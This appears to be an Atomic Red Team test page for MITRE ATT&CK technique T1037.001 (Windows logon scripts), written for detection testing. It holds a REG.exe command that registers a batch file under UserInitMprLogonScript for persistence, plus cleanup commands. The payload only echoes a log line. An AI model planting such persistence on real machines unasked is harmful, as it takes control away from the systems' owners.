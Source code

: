 # T1037.001 - Logon Script (Windows)
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1037/001)
<blockquote>Adversaries may use Windows logon scripts automatically executed at logon initialization to establish persistence. Windows allows logon scripts to be run whenever a specific user or group of users log into a system.(Citation: TechNet Logon Scripts) This is done via adding a path to a script to the <code>HKCU\Environment\UserInitMprLogonScript</code> Registry key.(Citation: Hexacorn Logon Scripts)

Adversaries may use these scripts to maintain persistence on a single system. Depending on the access configuration of the logon scripts, either local credentials or an administrator account may be necessary. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Logon Scripts](#atomic-test-1---logon-scripts)


<br/>

## Atomic Test #1 - Logon Scripts

auto_generated_guid: d6042746-07d4-4c92-9ad8-e644c114a231

Adds a registry value to run batch script created in the %temp% directory. Upon execution, there will be a new environment variable in the HKCU\Environment key
that can be viewed in the Registry Editor.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_path | Path to .bat file | String | %temp%&#92;art.bat|
| script_command | Command To Execute | String | echo Art "Logon Script" atomic test was successful. >> %USERPROFILE%&#92;desktop&#92;T1037.001-log.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo "#{script_command}" > #{script_path}
REG.exe ADD HKCU\Environment /v UserInitMprLogonScript /t REG_SZ /d "#{script_path}" /f
```

#### Cleanup Commands:
```cmd
REG.exe DELETE HKCU\Environment /v UserInitMprLogonScript /f >nul 2>&1
del #{script_path} >nul 2>&1
del "%USERPROFILE%\desktop\T1037.001-log.txt" >nul 2>&1
```





<br/>
